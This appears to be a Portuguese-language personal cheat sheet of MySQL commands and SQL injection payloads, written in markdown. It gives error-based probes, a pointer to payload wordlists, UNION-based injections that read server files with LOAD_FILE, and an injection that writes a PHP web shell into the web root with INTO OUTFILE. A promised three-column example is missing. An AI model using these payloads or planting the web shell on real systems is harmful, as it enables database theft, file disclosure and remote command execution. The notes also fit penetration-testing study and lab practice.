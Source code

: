 ```
select database();
```

obs: no banco mysql na tabela user tem mapeados usuário e senha dos usuários mysql

retorna mais de um campo em apenas 1 consulta, separando os campos por `:`
```
select concat(login,':', senha) from usuarios;
```
leitura de arquivo
```
select load_file('/var/www/html/index.html');
```
sleep
```
select sleep(10);
```
describe
```
describe <table_name>;
```

### SQL injection
wordlist com payloads para sql injection
```
/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt
https://github.com/payloadbox/sql-injection-payload-list
```

**error based** 
```
'
\
"
```

Leitura de arquivo no servidor
```
select * from usuarios where login='' union select 1,2,LOAD_FILE('/var/www/html/payload.php');
```

Escrita de arquivo no servidor:
```
select * from usuarios where login='' union select 1,2,'PAYLOAD' INTO OUTFILE '/var/www/html/payload.php';

select * from usuarios where login='' union select 1,2,'<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/payload.php';


```
obs: no exemplo abaixo a tabela possui 3 colunas:

**Addslashes**
exibe os caracteres em hexadecimal
```
echo -n 'frase qualquer' | od -An -tdC
```
